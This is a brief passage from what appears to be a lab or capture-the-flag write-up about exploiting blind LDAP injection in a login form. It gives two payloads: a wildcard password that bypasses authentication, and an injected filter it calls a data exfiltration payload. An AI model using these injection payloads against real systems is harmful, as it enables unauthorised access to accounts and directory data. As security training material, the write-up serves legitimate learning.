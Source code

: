 So, seems like the server is vulnerable to BLIND LDAP injection, if we pass in the following payload, we get what we saw in the previous image, let's try to create another payload:

				`username=admin&password=*` -----> Base payload
			`username=admin)(|(description=*&password=invalid) -----> Data 
			exfiltration payload`

If we pass this to our proxy, we get the following:

![Pasted image 20241011174442.png](../../../../IMAGES/Pasted%20image%2020241011174442.png)
![Pasted image 20241011174518.png](../../../../IMAGES/Pasted%20image%2020241011174518.png)

We can even create our own tools for the enumeration and exploitation of this vulnerability.

